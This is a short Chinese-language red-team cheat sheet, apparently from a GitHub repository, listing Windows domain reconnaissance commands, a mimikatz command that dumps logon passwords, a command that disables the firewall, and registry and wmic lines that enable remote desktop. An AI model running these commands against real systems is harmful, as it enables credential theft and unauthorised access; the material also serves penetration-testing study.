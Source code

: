 # 一些小记


## 一些命令

### 域基础收集

```shell
net view                 # 查看局域网内其他主机名
net config Workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "doamin controllers" /domain  # 查看域控制器主机名（可能有多台）
```

mimikatz

```shell
mimikatz_x64.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit 
```


### 杂项

关闭防火墙：`netsh advfirewall set allprofiles state off`

添加远程桌面

```shell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
netstat -an|find "3389"
```

## 一些工具

- [红/蓝队环境自动化部署工具](https://github.com/ffffffff0x/f8x)